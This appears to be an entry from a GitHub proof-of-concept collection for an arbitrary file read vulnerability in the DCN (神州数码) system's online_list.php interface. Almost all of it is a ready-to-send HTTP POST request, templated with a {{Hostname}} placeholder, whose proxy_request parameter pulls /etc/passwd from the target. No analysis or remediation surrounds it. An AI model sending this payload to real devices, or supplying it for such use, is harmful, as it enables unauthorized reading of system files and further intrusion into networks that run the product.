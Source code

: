 # szsmdcn_online_list_fileread

product:神州数码DCN
from:https://github.com/wy876/POC/blob/main/DCN/%E7%A5%9E%E5%B7%9E%E6%95%B0%E7%A0%81DCN%E7%B3%BB%E7%BB%9F%E6%8E%A5%E5%8F%A3online_list.php%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E.md

```
POST /function/auth/user/online_list.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

proxy_request=/etc/passwd
```
